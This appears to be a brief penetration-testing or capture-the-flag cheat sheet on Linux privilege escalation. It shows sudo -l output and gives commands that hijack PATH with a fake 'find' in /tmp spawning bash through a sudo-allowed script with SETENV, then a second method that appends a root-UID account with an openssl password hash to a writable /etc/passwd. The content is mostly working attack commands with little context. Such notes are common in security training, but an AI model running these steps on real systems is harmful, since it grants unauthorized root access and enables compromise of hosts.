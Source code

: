 # sudo -l 

## Case 1 - 

$sudo -l 

Matching Defaults entries for wizard on pb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on pb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh

if you have read/write access to /etc/passwd you can:
openssl passwd <whateverPasswordYouWant>
echo "myUser:<openSSLHash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su myUser
         
   
